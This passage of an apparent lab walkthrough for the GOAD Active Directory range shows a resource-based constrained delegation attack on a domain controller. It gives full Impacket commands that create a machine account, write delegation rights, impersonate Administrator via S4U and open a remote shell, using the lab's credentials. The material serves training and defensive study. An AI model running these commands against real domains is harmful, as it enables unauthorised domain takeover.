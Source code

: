 - We can see that stannis.baratheon got a generic Write on kingslanding

- The RBCD exploitation append with the following commands :

- Create a computer X (rbcd$)

```bash
addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-host kingslanding.sevenkingdoms.local 'sevenkingdoms.local/stannis.baratheon:Drag0nst0ne'
```

- Add delegation write on our target from X (rbcd$)

```bash
rbcd.py -delegate-from 'rbcd$' -delegate-to 'kingslanding$' -dc-ip 'kingslanding.sevenkingdoms.local' -action 'write' sevenkingdoms.local/stannis.baratheon:Drag0nst0ne
```

- Now X (rbcd$) got delegation permission on our target, you can now do an s4u2self query followed by an S4u2proxy.
- This will result in an administrator permission on kingslanding.

```bash
getST.py -spn 'cifs/kingslanding.sevenkingdoms.local' -impersonate Administrator -dc-ip 'kingslanding.sevenkingdoms.local' 'sevenkingdoms.local/rbcd$:rbcdpass'

export KRB5CCNAME=/workspace/rbcd/Administrator@cifs_kingslanding.sevenkingdoms.local@SEVENKINGDOMS.LOCAL.ccache
wmiexec.py -k -no-pass @kingslanding.sevenkingdoms.local
```

![deleg_rbcd_exploit.png](/assets/blog/GOAD/deleg_rbcd_exploit.png)

- After the exploit a little clean up of the lab, flush the rbcd entry and delete the computer account with a domain admin:

```bash
rbcd.py -delegate-from 'rbcd$' -delegate-to 'kingslanding$' -dc-ip 'kingslanding.sevenkingdoms.local' -action 'flush' sevenkingdoms.local/stannis.baratheon:Drag0nst0ne
addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-host kingslanding.sevenkingdoms.local 'sevenkingdoms.local/cersei.lannister:il0vejaime' -delete
```
